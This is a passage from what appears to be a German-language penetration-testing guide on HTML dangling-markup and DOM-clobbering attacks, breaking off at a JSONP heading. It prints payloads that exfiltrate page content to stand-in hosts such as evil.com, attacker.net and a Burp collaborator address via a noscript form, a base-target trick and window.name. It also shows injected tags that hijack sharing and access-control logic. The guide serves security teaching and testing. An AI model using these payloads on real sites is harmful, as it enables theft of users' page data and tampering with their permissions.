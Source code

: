 `<noscript></noscript>` ist ein Tag, dessen Inhalt interpretiert wird, wenn der Browser JavaScript nicht unterstützt (Sie können JavaScript in Chrome unter [chrome://settings/content/javascript](chrome://settings/content/javascript) aktivieren/deaktivieren).

Eine Möglichkeit, den Inhalt der Webseite vom Punkt der Injektion bis zum Ende auf eine vom Angreifer kontrollierte Seite zu exfiltrieren, besteht darin, dies einzufügen:
```html
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```
### Umgehung von CSP mit Benutzerinteraktion

Aus dieser [portswiggers-Forschung](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) können Sie lernen, dass selbst aus den **am stärksten CSP-beschränkten** Umgebungen Sie immer noch **Daten exfiltrieren** können, wenn Sie etwas **Benutzerinteraktion** haben. In diesem Fall werden wir das Payload verwenden:
```html
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```
Beachten Sie, dass Sie das **Opfer** bitten werden, auf einen **Link** zu **klicken**, der ihn zu einem von Ihnen kontrollierten **Payload** weiterleitet. Beachten Sie auch, dass das **`target`**-Attribut innerhalb des **`base`**-Tags **HTML-Inhalt** bis zum nächsten einfachen Anführungszeichen enthalten wird.\
Dies wird dazu führen, dass der **Wert** von **`window.name`**, wenn der Link angeklickt wird, all diesen **HTML-Inhalt** enthält. Daher können Sie, da Sie die Seite kontrollieren, auf die das Opfer durch Klicken auf den Link zugreift, auf **`window.name`** zugreifen und diese Daten **exfiltrieren**:
```html
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
### Irreführender Skript-Workflow 1 - HTML-Namensraum-Angriff

Fügen Sie ein neues Tag mit einer ID innerhalb des HTML ein, das das nächste überschreibt und mit einem Wert, der den Fluss eines Skripts beeinflusst. In diesem Beispiel wählen Sie aus, mit wem Informationen geteilt werden:
```html
<input type="hidden" id="share_with" value="fredmbogo" /> ← Injected markup ...
Share this status update with: ← Legitimate optional element of a dialog
<input id="share_with" value="" />

... function submit_status_update() { ... request.share_with =
document.getElementById('share_with').value; ... }
```
### Irreführender Skript-Workflow 2 - Skript-Namensraum-Angriff

Erstellen Sie Variablen innerhalb des JavaScript-Namensraums, indem Sie HTML-Tags einfügen. Dann wird diese Variable den Ablauf der Anwendung beeinflussen:
```html
<img id="is_public" /> ← Injected markup ... // Legitimate application code
follows function retrieve_acls() { ... if (response.access_mode == AM_PUBLIC) ←
The subsequent assignment fails in IE is_public = true; else is_public = false;
} function submit_new_acls() { ... if (is_public) request.access_mode =
AM_PUBLIC; ← Condition always evaluates to true ... }
```
### Missbrauch von JSONP
